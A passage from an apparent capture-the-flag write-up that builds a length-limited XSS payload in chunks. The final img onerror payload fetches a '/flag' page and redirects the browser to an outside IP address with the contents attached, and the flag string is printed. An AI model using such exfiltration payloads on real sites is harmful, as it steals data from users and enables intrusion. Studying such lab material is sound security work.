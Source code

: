 ### Javascript functions

Now that we can use `.then()` we need a function to pass to it. So that's where javascript's arrow functions come to the rescue. We can use that to create 2 functions. We need one to return the `r.text()` and another one to send the flag to our IP.

First function

```js
`;l=r=>{`
`;return/*
*/r.text();`
`;};`
```

Building the second function was a task. At first, we thought of using `window.name` and redirecting to `window.name+r` as we can set the `window.name` from another site while opening a new window. But that didn't work. So we had to give our IP in the payload.

```js
`;p=q=>{s=/*
*/`http:`;`
`;s+=`//3`;`
`;s+=`4.9`;`
`;s+=`3.5`;`
`;window./*
*/location/*
*/=s+`6.144?
`+q;};`
```

We also need to assign `fetch` to a variable as we can't call that with 12 characters.

```js
`;n=fetch;`
`;w=n(f)/*
*/.then(l)/*
*/.then(p);'
```

Final Payload:

```html
<img src='
'onerror='`
`;n=fetch;`
`;l=r=>{`
`;return/*
*/r.text();`
`;};`
`;p=q=>{s=/*
*/`http:`;`
`;s+=`//3`;`
`;s+=`4.9`;`
`;s+=`3.5`;`
`;window./*
*/location/*
*/=s+`6.144?
`+q;};`
`;f=`flag`;`
`;w=n(f)/*
*/.then(l)/*
*/.then(p);'
```


**Flag**: `lactf{s0_pr0duct1v3_y0u_c4n_3v3n_g3t_xss}`
